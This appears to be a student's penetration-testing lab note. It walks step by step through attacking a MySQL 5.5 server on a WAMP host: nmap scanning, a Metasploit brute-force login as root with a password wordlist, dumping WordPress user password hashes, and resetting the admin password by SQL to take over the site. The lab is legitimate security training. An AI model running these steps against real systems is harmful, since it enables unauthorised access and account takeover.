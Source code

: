 MySQL 5.5.20-log- 3306 + wamp port 8585

- cat /etc/hosts
- nmap -sV -sC -p 3306 10.0.25.212 
- searchsploit MySQL 5.5
- msfconsole
- use auxiliary/scanner/mysql/mysql_login
- user = root
- set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
- mysql -u root -p -h 10.0.25.212
	- show databases;
	- use wordpress;
	- show tables;
	- select * from wp_users;
	- From this point, we can copy the password hashes displayed in the user_pass column. Alternatively, we can also change the password for the admin user so that we can login to the WordPress site being hosted on the WAMP server we identified in an earlier lab.
	- UPDATE wp_users SET user_pass = MD5('password123') WHERE user_login = 'admin';
	- http://<TARGET-IP>/8585/wordpress/wp-admin

We have been able to successfully gain access to the MySQL database server and modify the WordPress admin user account password consequently gaining administrative control over the WordPress site.





